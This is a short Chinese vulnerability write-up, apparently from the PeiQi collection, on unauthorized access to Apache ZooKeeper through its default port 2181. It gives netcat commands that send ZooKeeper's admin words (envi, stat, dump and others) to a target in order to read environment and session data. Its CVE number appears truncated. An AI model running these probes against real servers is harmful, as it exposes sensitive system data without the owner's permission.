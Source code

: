 ```yaml
---
title: Apache ZooKeeper 未授权访问漏洞 CVE-2014-085
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Apache
---
```


# Apache  ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

 默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

> [!NOTE]
>
> Apache ZooKeeper

## 漏洞复现

Apache  ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![](/img/20210924015535899295.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```

